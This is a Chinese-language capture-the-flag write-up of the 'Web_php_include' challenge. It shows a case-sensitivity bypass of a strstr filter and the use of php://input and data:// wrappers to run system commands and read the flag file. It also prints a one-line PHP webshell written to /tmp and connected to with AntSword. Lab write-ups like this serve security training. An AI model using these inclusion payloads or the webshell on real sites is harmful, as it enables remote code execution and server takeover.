







# 攻防世界   Web_php_include

## php伪协议解题



strstr函数区分大小写，因此直接使用大小写绕过该函数即可

> 使用php://input可以访问请求的原始数据的数据流，将POST请求当成php代码执行，因此可以利用POST请求输入恶意代码

使用bp抓包



输入<?php system("ls")?>表示列出当前目录下的所有文件

发现可疑的php文件fl4gisisish3r3.php

利用请求可当成php代码执行这一特点，输入<?php system("cat .....")?>表示查看该php文件的内容



得到了flag！！！！

## data伪协议解题

既然题目过滤掉了php，那我们就可以使用data伪协议，同php://input类似，它也可以让用户控制输入流



在伪协议后输入恶意代码，查看当前目录下的所有文件

同样的方式，写入查看可疑文件的命令



乍一看啥也没有，其实是作为注释藏在了源代码中，即找到了flag!!!!


## 利用php://input伪协议写入一句话（使用蚁剑）

首先用bp抓包，写入如下一句话木马：

```
<?PHP fputs(fopen('/tmp/shell.php','w'),'<?php @eval($_POST[cmd])?>');?>
```

`linux默认tmp是可写目录`

使用蚁剑连接

连接成功之后直接查看文件管理



即可以直接找到目录下面的php文件，点击查看源代码



成功得到flag!!!!!


